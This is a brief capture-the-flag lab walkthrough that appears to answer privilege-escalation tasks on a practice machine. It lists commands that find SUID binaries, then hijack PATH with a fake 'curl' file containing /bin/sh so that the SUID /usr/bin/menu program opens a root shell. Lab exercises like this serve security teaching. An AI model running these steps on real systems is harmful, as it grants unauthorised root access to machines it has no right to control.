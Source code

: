 1)
- find / -perm -u=s -type f 2>/dev/null (this should be done inside the ssh server from the prior task)
- /usr/bin/menu
2) 
- /usr/bin/menu
- 3
4)
- cd /tmp
- echo /bin/sh > curl
- chmod 777 curl
- export PATH=/tmp:$PATH
- /usr/bin/menu
- enter anything and it will run a shell